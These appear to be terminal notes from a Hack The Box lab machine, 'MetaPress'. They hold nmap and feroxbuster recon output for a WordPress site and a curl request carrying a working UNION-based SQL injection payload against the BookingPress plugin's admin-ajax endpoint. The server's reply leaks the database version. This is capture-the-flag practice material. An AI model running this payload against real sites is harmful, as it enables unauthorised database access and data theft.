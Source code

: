 └─$ nmap -A -p- -Pn 10.10.11.186 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-10 11:42 CST
Nmap scan report for metapress.htb (10.10.11.186)
Host is up (0.068s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.6.2
|_http-title: MetaPress &#8211; Official company site
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=11/10%Time=636D3AB3%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:10\.10
SF:\.11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cr
SF:eative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creativ
SF:e\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 753.04 seconds

└─$ feroxbuster -u http://metapress.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,html,txt,git,pdf -q -fs 200,301
200      GET      155l      552w        0c http://metapress.htb/
301      GET        0l        0w        0c http://metapress.htb/about/ => http://metapress.htb/about-us/
301      GET        0l        0w        0c http://metapress.htb/rss/ => http://metapress.htb/feed/
301      GET        0l        0w        0c http://metapress.htb/index.php => http://metapress.htb/
200      GET     1033l     3343w        0c http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2006/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/1/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/08/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/rss/ => http://metapress.htb/events/feed/
301      GET        0l        0w        0c http://metapress.htb/events/03/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2005/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/11/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/12/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/10/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/about/ => http://metapress.htb/about-us/
301      GET        0l        0w        0c http://metapress.htb/events/events/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/01/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/05/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/04/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/07/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/09/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/02/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/3/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/13/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/4/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/14/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/15/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/16/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2004/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/18/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/20/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/22/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/21/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/6/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/5/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/19/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/24/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/2007/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/23/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/17/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/27/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/26/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/events/9/ => http://metapress.htb/events/
200      GET      155l      552w        0c http://metapress.htb/0/
200      GET       50l      114w        0c http://metapress.htb/feed/
301      GET        0l        0w        0c http://metapress.htb/0/events/ => http://metapress.htb/events/
301      GET        0l        0w        0c http://metapress.htb/0/rss/ => http://metapress.htb/0/feed/
301      GET        0l        0w        0c http://metapress.htb/0/about/ => http://metapress.htb/about-us/
200      GET      384l     3177w    19915c http://metapress.htb/license.txt
200      GET       97l      823w     7278c http://metapress.htb/readme.html


https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

└─$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=61a943f4b5&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 10 Nov 2022 18:42:12 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]                                                                                                       

